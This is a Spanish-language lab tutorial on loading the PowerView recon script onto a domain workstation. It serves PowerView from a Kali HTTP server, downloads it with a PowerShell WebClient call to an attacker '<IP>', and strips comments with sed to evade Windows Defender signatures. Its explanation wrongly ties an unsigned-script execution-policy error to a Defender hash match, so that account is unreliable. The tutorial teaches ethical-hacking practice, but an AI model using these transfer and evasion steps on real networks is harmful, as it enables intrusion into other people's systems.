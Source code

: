 ```yaml
---
icon: binoculars
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# PowerView

En este caso vamos a ver una herramienta bastante famosa para `hacking` a parte de otras en entornos de `Windows`.

Lo primero que vamos hacer es configurar una `GPO` que aplique a los diferentes equipos dentro de nuestro `DC`.

Esto lo vamos hacer ya que en los diferentes equipos que estan dentro del dominio del `DC` no puede ejecutarse scripts de `PowerShell` por defecto como medida de seguirdad, pero en algunos casos los `Administradores` necesitan habilitar esta opcion para hacer algunos cambios en los diferentes equipos y esto se hace mediante una regla de `GPO` para que se aplique a los equipos que queramos a la vez y no tengamos que ir uno por uno.

Por lo que vamos a irnos en el `DC` al panel de `Servidor del Administrador` -> `Herramientas` -> `Administracion de directivas de grupo` -> aqui vamos a crear una `GPO` a nivel de dominio que solo afecte a nuestro dominio click derecho en `corp.local` -> `Crear un GPO en este dominio y vincularlo aqui...` -> se llamara `Script Execution Policy` -> `Aceptar` -> click derecho en el `Script Execution Policy` -> `Editar` -> como vamos a crear una `GPO` que va a estar a nivel de equipo nos iremos a `Configuracion del Equipo` -> `Directivas` -> `Plantillas administrativas` -> `Componentes de Windows` -> `Windows PoweShell` -> pulsamos doble click en `Activar la ejecuccion de scripts` -> marcamos `Habilitada` -> seleccionamos en `Directivas de ejecuccion` el `Permitir Scripts locales y scripts remotos firmados` -> `Aplicar` -> `Aceptar`.

Con esto ya estaria aplicado correctamente esta `politica`/`GPO`, ahora tendremos que reiniciar los equipos del dominio que en mi caso son 2 y se aplicaran las politicas correctamente.

### Instalación de PowerView

De mientras vamos instalar `PowerView` en nuestro `kali`.

Vamos a suponer que para la auditoria nos han proporcionado credenciales de un usuario del dominio para conectarnos de forma remota, pero sin privilegios de administrador.

En el siguiente link vamos a ver un `suit/conjunto` de herramientas para todas las fases de un `pentest` de un ejercicio de seguridad o de `hacking etico` para normalmente realizar recopilacion de informacion, explotacion, analisis de vulnerabilidades, etc... Sobre equipos de `Microsoft` todas las cosas que hace estan implementadas en `PowerShell` por lo que es muy util para nosotros.

URL = [GitHub PowerSploit](https://github.com/PowerShellMafia/PowerSploit)

Vamos a irnos al modulo de `recon` (Reconocimiento) -> entraremos en `PowerView.ps1` en el script.

Una vez que estemos aqui dentro:

[Script PowerShell](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

Lo copiaremos entero y haremos lo siguiente:

```shell
nano PowerView.ps1

#Dentro del nano

<PEGAR_SCRIPT_POWERVIEW>
```

Lo guardamos y ya lo tendriamos listo en nuestro `kali`.

Vamos a probar 2 formas de enumerar un sistema `Windows` tanto con `PowerView` de forma automatizada, como de forma manual sin `PwerView` ya que en algunos casos esto peude ser detectado por antivirus o herramientas de seguridad.

Imaginemos que nos propocionan la maquina `WS01` para realizar nuestras pruebas de pentesting, vamos a probar de primeras el `PowerView` en dicha maquina de la siguiente forma:

### Transferencia de archivo .ps1 a maquina windows

Antes tendremos que realizar una pequeña configuracion ya que al reiniciar o apagar el equipo se desactiva, tendremos que darle click derecho en el `adaptador de red` -> `Ethernet` -> `Configuracion de uso compartido avanzado` -> y activar las 2 opciones `Activar la deteccion de redes` y `Activar el uso compartido de archivos e impresoras` -> `Guardar cambios` pedira credenciales de administrador, las metemos y listo.

<figure><img src="../../../.gitbook/assets/image (225).png" alt=""><figcaption></figcaption></figure>

Con esto ya nos podremos pasar el archivo `.ps1` a la maquina `Windows` todo esto lo podremos hacer ya que tenemos acceso a dicha maquina.

Haremos el mismo proceso pero para con el `WS02`, por lo que si hacemos en un `PwerShell` lo siguiente:

```powershell
ping WS02
```

Tiene que dar `ping` y vicebersa.

Ahora nos vamos a crear en nuestro `kali` un servidor de `python3` en la misma carpeta del archivo `PowerView.ps1` para pasarnos el archivo de forma facil y sencilla, ya profundizaremos en tecnicas de `PostExplotacion` para este tipo de cosas, pero en este caso lo haremos de forma sencilla.

```shell
python3 -m http.server 80
```

Y en la maquina `Windows` buscaremos la siguiente direccion `URL` en un navegador web:

```
URL = http://<IP>/PowerView.ps1
```

Si le damos a `ENTER` veremos que se nos descarga el archivo.

O tambien lo podremos hacer desde un `PowerShell` de la siguiente forma:

```powershell
cd .\Desktop
(New-Object System.NET.WebClient).DownloadFile("http://<IP>/PowerView.ps1", "PowerView.ps1")
```

Una vez que ya tengamos el archivo en nuestro escritorio de `WS01` haremos lo siguiente.

### Prueba de forma automatica PoweView.ps1

Ahora para lanzar este script lo hariamos de la siguiente forma en un `PwerShell` del equipo `WS01`:

```powershell
. .\PowerView.ps1
```

Info:

```
. : No se puede cargar el archivo C:\Users\empleado1\Desktop\PowerView.ps1. El archivo C:\Users\empleado1\Desktop\PowerView.ps1 no está firmado
digitalmente. No se puede ejecutar este script en el sistema actual. Para obtener más información acerca de la ejecución de scripts y la configuración de la
directiva de ejecución, consulta about_Execution_Policies en https:/go.microsoft.com/fwlink/?LinkID=135170.
En línea: 1 Carácter: 3
+ . .\PowerView.ps1
+   ~~~~~~~~~~~~~~~
    + CategoryInfo          : SecurityError: (:) [], PSSecurityException
    + FullyQualifiedErrorId : UnauthorizedAccess
```

Nos da un error de que puede contener archivos maliciosos y no lo ejecuta, ya que `Windows Defender` tiene guardado el `hash` de dicho fichero ya que se utiliza mucho para auditorias o practicas de `hacking etico` por lo que lo bloquea.

### Bypass Windows Defender PowerView

Lo que tendremos que hacer sera eliminar todos los comentarios del script para que no tenga esa `"firma"` y que el `hash` con el que esta identificando el `Windows Defender` no sea el mismo, por lo que lo va a tomar como un archivo legitimo, nos iremos al `kali` y pondremos lo siguiente:

```shell
sed '/<#/,/#>/d' PowerView.ps1 > new_powerview.ps1
```

Ahora una vez que ya hayamos eliminado todos los comentarios con este comando, nos lo volveremos a pasar al `WS01` como hicimos anteriormente, una vez que ya lo tengamos en el equipo, ejecutaremos el mismo comando de antes de `PowerShell`:

```powershell
. .\new_powerview.ps1
```

Con esto no nos aparecera nada por lo que lo ejecutamos correctamente y ya podremos utilizar `PowerView` en este equipo.
